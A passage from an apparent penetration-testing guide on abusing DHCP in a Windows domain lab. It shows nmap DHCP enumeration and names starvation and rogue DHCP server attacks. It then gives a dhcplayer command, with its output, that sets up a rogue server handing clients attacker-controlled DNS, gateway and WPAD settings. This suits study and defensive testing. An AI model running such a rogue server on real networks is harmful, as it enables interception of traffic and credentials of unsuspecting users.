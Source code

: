 You can check the options provided by the DHCP server with [dhcplayer](https://github.com/Zer1t0/dhcplayer#dhcp-server) or the nmap script [broadcast-dhcp-discover](https://nmap.org/nsedoc/scripts/broadcast-dhcp-discover.html). However, root/admin privileges are required since source port 68 needs to be used.

```
root@debian10:~# nmap --script broadcast-dhcp-discover -e enp7s0
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-30 05:55 EST
Pre-scan script results:
| broadcast-dhcp-discover: 
|   Response 1 of 1: 
|     IP Offered: 192.168.100.7
|     DHCP Message Type: DHCPOFFER
|     Subnet Mask: 255.255.255.0
|     Renewal Time Value: 4d00h00m00s
|     Rebinding Time Value: 7d00h00m00s
|     IP Address Lease Time: 8d00h00m00s
|     Server Identifier: 192.168.100.2
|     WPAD: http://isalocal.contoso.local:80/wpad.dat\x00
|     Router: 192.168.100.2
|     Name Server: 192.168.100.2
|     Domain Name Server: 192.168.100.2
|     Domain Name: contoso.local\x00
|_    NetBIOS Name Server: 192.168.100.2
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.52 seconds
```

Apart from enumeration, the DHCP protocol can also be abused to perform a couple of attacks:

* DHCP starvation/exhaustion
* Rogue DHCP server

Let's see how they work.

## Rogue DHCP server

Any machine in the network can take the role of a DHCP server by answering to the client discovery/request messages. Therefore, an attacker could create a rogue DHCP server in order to set a custom configuration in the clients.

Between the options that are configured by a DHCP server are the following:

* Gateway/router
* DNS servers
* NetBIOS/WINS name servers
* WPAD

In this way, clients could be, among others things, misconfigured to send DNS request to a rogue DNS server, that could redirect them to fake computers or domains controlled by the attacker. In order to perform this kind of attack, it is possible to use tools like [yersinia](https://github.com/tomac/yersinia) or [dhcplayer](https://github.com/Zer1t0/dhcplayer#dhcp-server).

```
$ dhcplayer server -I eth2 --wpad http://here.contoso.local/wpad.dat -v --domain contoso.local          
INFO - IP pool: 192.168.100.1-192.168.100.254
INFO - Mask: 255.255.255.0
INFO - Broadcast: 192.168.100.255
INFO - DHCP: 192.168.100.44
INFO - DNS: [192.168.100.44]
INFO - Router: [192.168.100.44]
INFO - WPAD: http://here.contoso.local/wpad.dat
INFO - Domain: contoso.local
INFO - REQUEST from 52:54:00:5d:56:b9 (debian10)
INFO - Requested IP 192.168.100.145
INFO - ACK to 192.168.100.145 for 52:54:00:5d:56:b9
INFO - REQUEST from 52:54:00:76:87:bb (ws01-10)
```